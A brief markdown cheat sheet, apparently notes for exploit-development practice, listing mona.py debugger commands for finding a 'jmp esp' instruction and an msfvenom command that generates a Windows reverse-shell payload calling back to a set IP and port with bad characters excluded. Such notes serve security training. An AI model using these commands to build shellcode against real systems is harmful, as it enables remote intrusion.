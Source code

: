 ## mona

* set working folder:  
`!mona config -set workingfolder c:\logs\%p`

* find instruction (i.e. "jmp esp") using mona:  
`!mona find -type instr -s "jmp esp"`

## misc
* shellcode generation using msfvenom
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.223 LPORT=8888 -f py -b "\x00\x0a\x0d\x20\x26\x2a\xd9\x74\x24\xf4"`

